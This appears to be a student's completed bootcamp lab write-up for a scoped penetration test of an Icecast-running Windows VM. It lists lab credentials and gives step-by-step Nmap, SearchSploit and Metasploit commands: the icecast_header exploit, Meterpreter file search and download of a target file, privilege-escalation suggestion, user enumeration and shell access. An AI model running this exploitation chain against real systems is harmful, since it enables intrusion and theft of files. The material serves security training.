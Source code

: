 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20

      ![nmap](images/nmap.jpg)

       
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: **_searchsploit icecast_**

     ![searchicecast](images/searchsploit.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **_msfconsole_**
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **_use exploit/windows/http/icecast_header_**

     ![useicecast](images/useicecast.jpg)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **_use 0_**
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **_set RHOSTS 192.168.0.20_**
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **_exploit_**

     - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **_search -f *secretfile*.txt_**

     ![question6](images/question6.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **_search -f *recipe*.txt_**
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: **_download /users/ieuser/documents/Drinks.recipe.txt_**

      ![question7](images/question7.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

**_run post/multi/recon/local_exploit_suggester_**

![#8](images/#8.jpg)
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **_run post/windows/gather/enum_logged_on_users_**

  ![A](images/A.jpg)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **_shell_**

  ![B](images/B.jpg)
 
C. Run the command that displays the target's computer system information:

   > Answer: **_systeminfo_**

   ![C](images/C.jpg)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
